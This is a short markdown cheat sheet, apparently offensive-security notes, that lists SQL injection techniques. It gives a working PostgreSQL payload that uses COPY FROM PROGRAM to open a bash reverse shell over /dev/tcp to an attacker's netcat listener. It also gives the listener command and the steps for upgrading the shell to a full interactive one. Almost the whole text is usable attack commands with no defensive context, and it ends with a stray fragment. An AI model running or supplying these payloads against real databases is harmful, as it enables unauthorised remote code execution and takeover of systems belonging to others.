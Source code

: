 # SQLi - SQL Injections
﷽
* List of `SQLIs`.

## Where the db name is known (can be exfiltrated through more SQLi :)

* Start a `nc` listener with `nc -lvnp 7777`
* Run `x'; COPY {db-name} FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/{YOUR_IP}/7777 0>&1"' --`, where:
  * `{your-ip}` is your IP, ie. `10.10.16.11`
  * `{db-name}` is a database name, eg. `cars`

* make it fully interactive by

`python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm`

sigma
